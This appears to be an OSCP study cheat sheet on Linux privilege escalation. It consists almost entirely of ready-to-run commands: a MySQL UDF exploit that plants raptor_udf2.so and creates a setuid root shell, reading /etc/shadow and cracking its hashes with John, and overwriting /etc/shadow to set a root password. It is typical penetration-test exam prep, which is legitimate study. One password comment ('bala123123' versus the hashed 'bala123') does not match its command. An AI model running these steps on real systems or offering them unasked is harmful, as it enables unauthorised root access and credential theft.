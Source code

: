 # oscp-cheatsheet

## Linux Privilege Escalation

### Serice Exploit - MySQL UDF Exploit
```
https://www.exploit-db.com/exploits/1518

ps aux | grep mysql
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
Select * from mysql.func;  #to list the user defined functions
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```
#### Weak File Permission - /etc/shadow Readable
```
ls -la /etc/shadow            #to view the permission of /etc/shadow
cat /etc/shadow               #to view the shadow file
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
su root                       #login with cracked password 'password123'
whoami;id;pwd
```
#### weak File Permission - /etc/shadow Writable
```
ls -la /etc/shadow
mkpasswd -m sha-512 bala123
nano /etc/shadow
su root                           #login with custom password 'bala123123'
whoami;id;pwd
```
